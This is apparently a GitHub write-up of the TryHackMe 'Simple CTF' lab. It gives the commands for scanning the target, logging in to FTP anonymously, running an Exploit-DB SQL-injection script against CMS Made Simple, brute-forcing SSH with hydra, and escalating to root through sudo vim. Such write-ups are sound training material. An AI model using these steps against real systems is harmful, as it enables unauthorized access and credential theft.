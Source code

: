 # SIMPLE CTF {TRY HACK ME}

![Theme Image](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/Theme.png)

Let's start by scanning the machine using nmap.

>sudo nmap -sSCV -vv {MACHINE IP}

![Scan Output](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/1.png)

As shown in the output we can login ftp by using ftp as username.

> ftp 10.10.162.108

After loging into ftp we found a directory named pub and in that directory we found a .txt file (ForMitch.txt). Let's get that file on our attacker machine.

![FTP Login](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/2.png)

It's a note for user Mitch

![Note For Mitch](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/3.png)

As we know port 80 is open and running http service, so let's open the webpage. It's a default apache webpage.

![Default Apache Webpage](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/4.png)

Let's run gobuster to find any hidden directory.

> gobuster dir -u http://{MACHINEIP} -w /PATH TO WORDLIST

![gobuster scan](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/5.png)

We found a hidden directory. Let's go to that directory and it's a CMS page. After scrolling down to the page we found the version of the CMS.

![Hidden Directory](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/6.png)

Now we can check for a CVE for CMS Made Simple Version 2.2.8 and we found a CVE on Exploit Database.

![CVE](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/7.png)

Q) What's the CVE you're using against the application?

A) CVE-2***-***3

Q) To what kind of vulnerability is the application vulnerable?

A) s***

Now we have a CVE so we can use it to get password. Let's download the CVE and crack the password.

> python 46635.py -u http://{MACHINE IP}/simple --crack -w /PATH TO WORDLIST

![Attack using CVE](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/8.png)

We can also use hydra to get password by using the userame Mitch we found in the ftp.

> hydra -l mitch -P /PATH TO WORDLIST ssh://MACHINE IP:2222

![Attack using Hydra](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/9.png)

Q) What's the password?

A )s****t

Q) Where can you login with the details obtained?

A) s**

Now we got the password let's login into ssh using the credentials.

> ssh mitch@MACHINE IP -p 2222

Let's first spawn a stable shell using python

> python -c 'import pty;pty.spawn("/bin/bash")'

![Spawn stable shell](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/10.png)

After listing all the files in user directory we found the user flag.

![User Flag](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/11.png)

Q) What's the user flag?

A) G*** ***, **** **!

We also found an another user in the home directory. 

![Another User](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/12.png)

Q) Is there any other user in the home directory? What's its name?

A) S*****h

Let's check for sudo privileges of the user Mitch.

> sudo -l

Mitch have sudo privileges for vim. 

We can use vim for privilege escalation

> sudo vim -c ':!/bin/bash'

![Privelage Escalation](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/13.png)

Q) What can you leverage to spawn a privileged shell?

A) v**

We are root now

Let's cd to root and get the root flag

![Root Flag](https://github.com/M4ddy19/TRYHACKME/blob/main/Simple-CTF/Images/14.png)

Q) What's the root flag?

A) W*** ****. *** **** **!
